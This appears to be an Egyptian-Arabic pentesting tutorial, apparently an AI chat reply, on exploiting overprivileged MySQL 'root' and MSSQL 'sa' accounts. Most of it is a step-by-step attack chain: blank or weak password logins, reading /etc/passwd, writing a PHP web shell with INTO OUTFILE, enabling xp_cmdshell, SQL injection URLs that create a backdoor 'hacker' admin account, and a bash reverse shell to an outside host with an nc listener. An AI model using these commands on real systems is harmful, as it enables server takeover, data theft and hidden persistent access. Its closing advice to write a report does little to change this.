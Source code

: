 تمام، هشرح لك "Overprivileged Database Users (root, sa)" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو Overprivileged Database Users (root, sa)؟**

#### **الشرح العميق:**
"Overprivileged Database Users" يعني إن مستخدمين قاعدة البيانات (زي "root" في MySQL أو "sa" في MSSQL) عندهم صلاحيات زيادة عن اللازم، يعني بيسمحوله يعملوا أكتر مما المفروض يحتاجوه لشغلهم. في العادي، المستخدمين دول بيكونوا Admins لقاعدة البيانات، لكن المشكلة لما يتسابوا مفتوحين أو يتستخدموا في تطبيقات الويب من غير ما يتحددوا صلاحياتهم صح.

- **root (في MySQL/PostgreSQL):** المستخدم الافتراضي بتاع قاعدة البيانات في لينكس، عنده كل الصلاحيات: يشوف، يعدل، يمسح، وينفذ أوامر على النظام لو السيرفر مضبوط غلط.
- **sa (في MSSQL):** المستخدم الافتراضي في Microsoft SQL Server، بيديه تحكم كامل في قاعدة البيانات، وممكن ينفذ أوامر على النظام لو مفعل XP_CMDSHELL.

لو التطبيق بيتصل بقاعدة البيانات باستخدام المستخدمين دول بدون قيود، المهاجم لو لقى ثغرة (زي SQL Injection) يقدر يستغلهم عشان يتحكم في كل حاجة.

#### **الأدوات والأوامر العملية:**
1. **فحص مستخدم MySQL:**
   - لو وصلت لـ Shell:
     - `mysql -u root -p` -> لو دخلت من غير كلمة سر، يبقى root مفتوح.
   - `SHOW GRANTS;` -> لو رجع `GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' WITH GRANT OPTION`، يعني صلاحيات مفتوحة.

2. **فحص مستخدم sa في MSSQL:**
   - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
   - لو دخلت، شغل:
     - `SELECT IS_SRVROLEMEMBER('sysadmin', 'sa');` -> لو رجع `1`، يعني sa هو الأدمن.

3. **فحص من الويب:**
   - لو لقيت config.php مكشوف:
     - `cat /var/www/html/config.php` -> `$db_user = "root"; $db_pass = "";`.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب البواب بتاع العمارة يتحكم في كل الأدوار بدل ما يفتح الباب بس! root وsa دول زي الباشا بتاع قاعدة البيانات، لو مسكتهم، بقيت الكبير بتاع كل حاجة."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
المستخدمين دول خطيرين لأنهم بيدوك التحكم الكامل في قاعدة البيانات، وأحيانًا في السيرفر نفسه لو فيه إعدادات ضعيفة. لو المهاجم قدر يوصلهم:
- **سرقة بيانات:** يشوف كل الجداول (زي بيانات العملاء أو كلمات السر).
- **تعديل أو تدمير:** يمسح قاعدة البيانات أو يغير فيها.
- **تصعيد صلاحيات:** ينفذ أوامر على النظام (زي كتابة ملفات أو فتح Shell).

في الـ Pentesting، لو لقيت إن التطبيق بيستخدم root أو sa بصلاحيات مفتوحة، ده بيكون كنز لأنه بيفتحلك كل الأبواب.

#### **الأدوات والأوامر العملية:**
1. **استغلال root في MySQL:**
   - لو وصلت لـ MySQL كـ root:
     - `SELECT LOAD_FILE('/etc/passwd');` -> لو نجح، يعني تقدر تقرا ملفات النظام.
     - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';` -> تكتب Shell.

2. **استغلال sa في MSSQL:**
   - لو وصلت كـ sa:
     - `EXEC sp_configure 'show advanced options', 1; RECONFIGURE;`.
     - `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`.
     - `EXEC xp_cmdshell 'whoami';` -> لو رجع `nt authority\system`، يبقى سيطرت على السيرفر.

3. **SQL Injection للوصول:**
   - لو موقع فيه ثغرة:
     - `http://target.com/user?id=1; SELECT USER(); --` -> لو رجع `root@localhost`، يبقى التطبيق بيستخدم root.

#### **خلاصة بالعامية المصرية:**
"المستخدمين دول زي ما تكون سايب مفتاح العربية لأي حد، لو مسكوه، هياخدوا العربية كلها! خطيرين لأنهم بيدوك كل حاجة، من البيانات لحد السيرفر نفسه."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الصلاحيات الزيادة دي عشان تاخد وصول أعلى أو تتحكم في النظام كله.
- **مثال واقعي:** لو لقيت إن تطبيق ويب بيستخدم root في MySQL، تقدر تكتب ملف Shell وتتصل بالسيرفر.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي root أو sa مفتوحين، زي ما تكون لقيت مفتاح السكة الحديد! بتستغلهم عشان تفتح كل الأبواب وتبقى الكبير بتاع اللعبة."

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 3306: MySQL 5.7 (لينكس).
  - Port 1433: MSSQL (ويندوز).

#### **الخطوة 2: البحث عن الوصول**
- في لينكس:
  - `mysql -u root -p -h 192.168.1.10` -> جرب بدون كلمة سر أو "root".
- في ويندوز:
  - `sqlcmd -S 192.168.1.10 -U sa -P "sa"` -> جرب كلمات سر ضعيفة زي "admin".

#### **الخطوة 3: استغلال عبر الويب**
- لو موقع فيه SQL Injection:
  - `http://192.168.1.10/user?id=1; SELECT USER(); --`.
  - لو رجع `root@localhost` أو `sa`:
    - MySQL: `http://192.168.1.10/user?id=1; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'; --`.
    - MSSQL: `http://192.168.1.10/user?id=1; EXEC xp_cmdshell 'net user hacker pass123 /add'; --`.

#### **الخطوة 4: التحقق والتصعيد**
- في MySQL:
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> لو رجع `www-data`:
    - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
    - `nc -lvnp 4444` -> Shell.
- في MSSQL:
  - لو نجح الأمر، ادخل كـ `hacker` وشوف:
    - `whoami` -> لو `system`، نجحت.

#### **الخطوة 5: تصعيد كامل**
- في لينكس:
  - من الـ Shell: `id` -> `www-data` -> `sudo -l` -> لو لقيت شيء، استغله.
- في ويندوز:
  - `net localgroup administrators hacker /add` -> تصعد لأدمن.

#### **الخطوة 6: توثيق**
- سجل إنك لقيت root/sa مفتوحين.
- قدم تقرير يوضح إزاي استخدمتهم للوصول للنظام.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مفتاح القصر، فتحته، لعبته فيه، وطلعت الكبير بتاع الحتة! root وsa لما يكونوا مفتوحين، يبقوا طريقك للنصر في اللعبة."

---

### **الخلاصة النهائية:**
Overprivileged Database Users زي root وsa هما ثغرة كبيرة لأنهم بيدوك تحكم كامل في قاعدة البيانات وأحيانًا السيرفر. في الـ Pentesting، دور عليهم في الإعدادات أو استغلهم من ثغرات زي SQL Injection، واستخدمهم عشان تاخد Shell أو تصعد صلاحياتك. وري العميل إن النظام بتاعه زي بيت من غير حراس لو سيب المستخدمين دول مفتوحين! بالأدوات دي، تبقى البطل بتاع الساحة!